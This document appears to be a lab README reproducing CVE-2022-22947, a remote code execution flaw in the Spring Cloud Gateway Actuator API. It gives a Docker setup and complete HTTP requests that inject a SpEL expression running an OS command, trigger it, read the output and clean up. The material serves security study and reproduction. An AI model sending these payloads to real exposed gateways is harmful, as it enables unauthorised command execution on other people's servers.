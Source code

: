 # Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

[中文版本(Chinese version)](README.zh-cn.md)

Spring Cloud Gateway provides a library for building an API Gateway on top of Spring WebFlux.

Applications using Spring Cloud Gateway in the version prior to 3.1.0 and 3.0.6, are vulnerable to a code injection attack when the Gateway Actuator endpoint is enabled, exposed and unsecured. A remote attacker could make a maliciously crafted request that could allow arbitrary remote execution on the remote host.

References:

- <https://tanzu.vmware.com/security/cve-2022-22947>
- <https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/>

## Vulnerability Environment

Execute the following command to start a server that uses Spring Cloud Gateway 3.1.0:

```
docker-compose up -d
```

After server is started, browse the `http://your-ip:8080` to see an example page.

## Vulnerability Reproduce

Firstly, send the following request to add a router which contains an evil SpEL expression:

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![](1.png)

Secondly, refresh the gateway routers. The SpEL expression will be executed in this step:

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

Thirdly, send the following request to retrieve the result:

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](3.png)

Finally, send a DELETE request to remove our evil router:

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![](4.png)
